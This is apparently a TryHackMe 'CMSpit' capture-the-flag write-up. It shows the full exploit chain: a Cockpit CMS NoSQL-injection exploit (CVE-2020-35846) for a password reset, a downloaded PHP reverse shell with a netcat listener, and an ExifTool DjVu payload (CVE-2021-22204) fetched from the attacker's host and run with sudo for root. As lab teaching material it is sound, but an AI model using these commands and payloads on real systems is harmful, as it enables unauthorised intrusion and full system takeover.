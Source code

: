 ```yaml
---
layout: post
title: "CMSpit"
date: 2022-10-22
categories: [Tryhackme, Medium-THM]
tags: [Cockpit, CVE-2020-35846, reverse-shell, exiftool, CVE-2021-22204]
image: ../../assets/img/posts/cmspit.png 

---
```


## Description

This is a machine that allows you to practise web app hacking and privilege escalation using recent vulnerabilities.

|**Room**|[Vulnversity](https://tryhackme.com/room/cmspit)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Medium|
|**Creator**|[stuxnet](https://tryhackme.com/p/stuxnet)|

---

Starting off with deploying the machine, exporting IP and quickly scanning the open ports with rustscan,

```bash
export IP=10.10.121.198
rustscan -a $IP --range 0-65535 --ulimit 5000 -- -sVC -oN nmap.log
```

![image](https://user-images.githubusercontent.com/67465230/187490179-cc9125c1-ab54-496b-9586-7f20f9d0c0fa.png)

Scan results shows that port 22 (ssh), 80 (http) ports are open. The OS running is Ubuntu. 

Since this machine has port 80 opened, let's start the enumeration of the website. Visit http://10.10.231.15/, and we will get redirected to `/auth/login?to=/` page. This is a Cockpit CMS, and we have a login webpage,

![image](https://user-images.githubusercontent.com/67465230/187490190-f7844eea-c922-43c3-9172-73257bfb646d.png)

Looking at the source code of the webpage will show me the version of the JS library used here, which is 0.11.1,

![image](https://user-images.githubusercontent.com/67465230/187490196-c00c988d-747c-491d-811a-286f82111f80.png)

Scrolling down the source code a bit, and I found that there is a `/auth/check` page,

![image](https://user-images.githubusercontent.com/67465230/187490207-7f7728c7-b7c8-4213-9814-32d4c99792c5.png)

Now, I check if there was any matching exploit, and yes there is [Cockpit CMS 0.11.1 - 'Username Enumeration & Password Reset' NoSQL Injection](https://www.exploit-db.com/exploits/50185). Now, I dig into this CVE, and found the actual CVE of this exploit on NVD Database.

> [CVE-2020-35846](https://nvd.nist.gov/vuln/detail/CVE-2020-35846) : Agentejo Cockpit before 0.11.2 allows NoSQL injection via the Controller/Auth.php check function.

Now, searching for the same exploit on our local system via `searchsploit`. Scrolling down the exploit, and I found that there is a particular endpoint on the URL where `/auth/resetpassword` where the password get's reset (maybe the exploit do this for us??),

![image](https://user-images.githubusercontent.com/67465230/187727425-f7d01652-ad56-4324-919e-87ed899f2d0c.png)

Now, let's see how we can access the help menu of this exploit,

```bash
python cockpit_cms_0.11.1_exploit.py -h
```

![image](https://user-images.githubusercontent.com/67465230/187490226-80820cdc-680a-47ae-a556-53138c125c41.png)

Now since we have identified how we can run this exploit, let's fire this exploit up!

```bash
python cockpit_cms_0.11.1_exploit.py -u http://10.10.231.15
```

![image](https://user-images.githubusercontent.com/67465230/187727158-fa3eefef-cea8-4ed5-9f2b-3ca6a867d5ce.png)
![image](https://user-images.githubusercontent.com/67465230/187727182-bd6161aa-7f2e-406e-9ee1-08b57348eae3.png)

After running the exploit, it will ask us to enter the username we want the details off, and it will also change the password to credentials. We can head over to the login page, enter the temporary credentials, and we in the website,

![image](https://user-images.githubusercontent.com/67465230/187727202-a57bab76-0e51-4d38-a44e-7562cd10c522.png)

Now, roaming around the website, and I stumbled to this webpage, where everything seems so have writable access,

![image](https://user-images.githubusercontent.com/67465230/187727219-d210d320-a1f5-4f41-82e8-8ee8c3592d92.png)

Okay, so I think there is some space in that directory where we can do something sp00ky. Let's download the payload php-reverse-shell.php,

```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

Now, start the netcat listener using `nc -nvlp 4444`, and paste the following URL, http://cmspit.thm/php-reverse-shell.php,

![image](https://user-images.githubusercontent.com/67465230/187962097-7791c5c5-c14f-4f48-8d93-43fc0465799e.png)

Yayy! We got shell on the machine! But since it is not TTY right now, we need to get the full-fledge terminal before we move forward! Using the commands below, we can get the TTY shell,

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color
CTRL + Z
stty raw -echo; fg
stty rows 38 columns 116
```

Now, we navigated to **stux**'s home directory. There I found some files like .mongorc.js, .dbshell, user.txt, etc. 

![image](https://user-images.githubusercontent.com/67465230/187962120-0c207a70-934b-486c-825b-b7f0146f0fd1.png)

Let's take a look at **.dbshell** file and see what is present there! 

![image](https://user-images.githubusercontent.com/67465230/187962132-cd423a2c-100f-4500-a868-648bafa73033.png)

Reading the content of the file shows that there are credentials of the stux user (it is really a bad practice indeed!), along with the THM flag (which concerns me very less!).

Now,  let's quickly switch to **stux** user using `su` command,

```bash
su stux
```

![image](https://user-images.githubusercontent.com/67465230/187962152-7181ee84-8bbe-40df-ab5c-e221c45b8732.png)

Now comes the privilege escalation where I need to search those binaries which I can run as root user without providing the root user password,

```bash
sudo -l
```

![image](https://user-images.githubusercontent.com/67465230/187962165-f535f0c0-a851-4a68-9903-07162c47307d.png)
Indeed there is one binary that is placed in **/usr/local/bin/exiftool** which we can run it as root without providing the root user password.

Now, I went over the google and search for the **exiftool sudo privilege escalation cve**, and it showed me some of the results on how can we abuse exiftool binary to obtain root user,

![image](https://user-images.githubusercontent.com/67465230/187962184-edf87a71-5930-4390-a3c6-a642f8782848.png)

There are several blog post that shows how we can abuse exiftool binary, but by far, I found the one which is more interesting than all others.

> [!FAQ]
> [CVE-2021-22204](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/) : ExifTool could allow a local attacker to execute arbitrary code on the system, caused by improper neutralization of user data in the DjVu file format. By using a specially-crafted image file, an attacker could exploit this vulnerability to execute arbitrary code on the system.

After reading the blog, we need to install some binaries/dependencies on our local system in order to generate the payload required to abuse the functionalities,

```bash
sudo apt install djvulibre-bin # installing necessary tool
bzz payload payload.bzz # Compress our payload file with to make it non human-readable
djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz 
# INFO = Anything in the format 'N,N' where N is a number
# BGjp = Expects a JPEG image, but we can use /dev/null to use nothing as background image
# ANTz = Will write the compressed annotation chunk with the input file
```

On our local machine, let's create a payload with the content of `(metadata "\c${system('/bin/bash')};")`. Start python server with `python3 -m http.server`, and download the exploit file on the remote machine using the command below,

```bash
wget http://10.8.187.47:8000/exploit.djvu
```

Now, using the command below, we can easily abuse the functionality of the exiftool to obtain root user,

```bash
sudo /usr/local/bin/exiftool exploit.djvu
```

![image](https://user-images.githubusercontent.com/67465230/188279429-0e4465ae-0763-444e-965c-1a760d0cacd4.png)
